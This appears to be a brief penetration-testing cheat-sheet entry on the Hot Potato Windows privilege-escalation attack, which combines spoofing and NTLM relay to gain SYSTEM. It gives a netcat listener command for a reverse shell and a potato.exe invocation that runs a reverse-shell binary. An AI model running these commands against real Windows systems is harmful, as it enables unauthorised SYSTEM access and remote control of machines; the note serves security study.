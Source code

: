- - -
Hot Potato is the name of an attack that uses a **spoofing attack** along with an **NTLM relay attack** to gain **SYSTEM Privileges**.
This attack tricks windows into authenticating as the SYSTEM user to fake HTTP server using NTLM. The NTLM credentials

Then get relayed to SMB in order to gain command execution.
This vulnerability affects Windows **7**, **8**, **10**, Server 2008, and Server 2012.

Transfer the potato exploit to windows. and the reverse shell also.
then.

```sh
nc -nvlp 9090
```

```cmd
.\potato.exe -ip <our-ip> -cmd “C:\PrivEsc\reverse.exe” -enable_httpserver true -enable_defender true -enable_spoof true -enable_exhaust true
```

- - -

